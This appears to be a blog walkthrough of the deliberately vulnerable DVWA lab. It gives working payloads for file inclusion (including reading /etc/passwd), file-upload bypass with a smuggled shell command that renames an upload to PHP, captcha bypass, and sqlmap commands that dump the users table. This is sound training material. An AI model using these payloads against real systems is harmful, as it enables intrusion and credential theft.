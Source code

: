 ```yaml
---
layout: post
title: DVWA - Part 2
categories: [Vulnerable Web Applications]
tags: [DVWA, OWASP ZAP, file inclusion, file upload, captcha, SQL injection]

---
```


This is the second part exploring DVWA. For the first part, click [here](https://marselia.github.io/vulnerable%20web%20applications/2020/05/09/DVWA.html).

In this post, we will see vulnerabilities for:

- File inclusion
- File upload
- Captcha
- SQL

## File inclusion

This happens in dynamic pages with PHP as a result of a fault in the programming of the page. This is why the attacker could modify some files and parameters.

LOW - MEDIUM - HIGH:

LOW:
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=file4.php
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../robots.txt
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../phpinfo.php
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../bootmgr
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
- http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://127.0.0.1/evilphp.php

MEDIUM:
We can't use ../, so change it to ..././ :
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=..././..././robots.txt

HIGH:
Try to use this:
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/robots.txt


## File upload

You can encapsulate malicious code in inert file types.

LOW - MEDIUM - HIGH:

- LOW: Upload a malicious file.
- MEDIUM: Send a POST Request with the malicious file and change the Content-Type to image/jpeg.
- HIGH: Change the malicious file extension to jpeg and change the file signature to jpeg signature with hexedit. Then, in the command injection section, write this: 127.0.0.1|mv ../../hackable/uploads/test.png ../../hackable/uploads/test.php

## Insecure Captcha

Captchas are generally used to prevent robots from performing an action instead of humans.

LOW - MEDIUM - HIGH:

LOW: Change the step=1 to step=2.
```
http://127.0.0.1/DVWA/vulnerabilities/captcha/?step=2&password_new=q&password_conf=q&Change=Change
```
MEDIUM: We need to change the passed_captcha to True.
```
http://127.0.0.1/DVWA/vulnerabilities/captcha/?step=2&password_new=q&password_conf=q&passed_captcha=true&Change=Change
```
HIGH: Change the User-Agent to reCAPTCHA.
```
http://127.0.0.1/DVWA/vulnerabilities/captcha/?step=1&password_new=123&password_conf=123&recaptcha_response_field=hidd3n_valu3&Change=Change
```

## SQL injection blind

It is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response. 

LOW - MEDIUM - HIGH:

LOW:
Using wordlists or by hand only we can get the same message: "we find this user id in ddbb". For this reason, we will use sqlmap tool.

```
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1+or+sleep%28__TIME__%29%23&Submit=Submit" --cookie="security=low; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" –dbs
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1+or+sleep%28__TIME__%29%23&Submit=Submit" --cookie="security=low; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" -D dvwa –tables

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1+or+sleep%28__TIME__%29%23&Submit=Submit" --cookie="security=low; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" -D dvwa -T users –dump
```
![]({{ site.baseurl }}/images/DVWA-6.jpg)

MEDIUM:
```
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/" --cookie="security=medium; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" --data="id=3&Submit=Submit" --dbs 
//OPTION 2:
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=3&Submit=Submit" --cookie="security=medium; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" –dbs
//and you have to follow the same steps as low level
```

HIGH:
- Referer: https://127.0.0.1/DVWA/vulnerabilities/sqli_blind/cookie-input.php
- Cookie: id=1%27; security=high; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n
- Data: id=1%27&Submit=Submit
```
sqlmap -u “http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1%27&Submit=Submit” --cookie=”security=high; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n” --dbs
//and you have to follow the same steps as low level
```
